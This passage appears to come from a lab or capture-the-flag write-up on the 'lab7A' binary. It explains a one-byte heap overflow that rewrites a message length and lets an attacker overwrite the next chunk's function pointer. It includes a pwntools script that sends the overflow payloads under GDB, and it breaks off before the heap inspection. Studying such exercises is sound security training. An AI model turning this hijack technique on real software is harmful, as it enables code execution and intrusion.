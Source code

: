 ```BLOCK_SIZE``` is 4 and ```MAX_BLOCKS``` is 32, so the ```message``` array length is 128 bytes. 128(```msg_len```) / 4(```BLOCK_SIZE```) = 32 (```MAX_BLOCK```). Looks legit? Not exactly.
![image](https://user-images.githubusercontent.com/45107680/95101206-8f621700-073a-11eb-89d7-e081162e5a6f.png)

Also, consider this line of code in ```print_index``` function: ```messages[i]->print_msg(messages[i]);```. Initially, the ```print_message``` function is intended to be called always via this function pointer
, but the above mentioned corruption allows to overflow the chunk and overwrite the function pointer of the next chunk in memory with arbitrary address.

Let's take a look at how instruction pointer can be controlled via the corruption. I use ```pwntools``` Python framework which simplifies 
A LOT of tasks during the exploit development. A convenient shellcoding and GDB integration are my favorite ;) 

```
from pwn import *

io = process("./lab7A")
gdb.attach(io, '''
b *create_message + 127
b *create_message + 416
b *print_index + 158
c
''')

def allocate_chunk(payload, len):
    io.recvuntil(b'Choice: ')
    io.sendline(b'1')
    io.recvuntil(b'length: ')
    io.sendline(str(len).encode()) 
    io.recvuntil(b'encrypt: ')
    io.sendline(payload) 

# first chunk allocation
# let's overflow 1 byte
first_chunk_len = 129 
# this payload results in overwriting the current chunk's msg_len to 0x42 
first_chunk_payload = b'\x41' * 128 + b'\x42' 
allocate_chunk(first_chunk_payload, first_chunk_len)
# second chunk allocation
# this chunk can be legitimate, at least for now
second_chunk_len = 1
second_chunk_payload = b'\x43'
allocate_chunk(second_chunk_payload, second_chunk_len)
io.interactive()
```

```b *create_message + 127``` - this breakpoint stops right after malloc.

```b *create_message + 416``` - this one on the return from ```create_message```

```b *print_index + 158``` - and this one on the function pointer invocation.

Let's inspect the heap before the second return from the ```create_message``` function:

```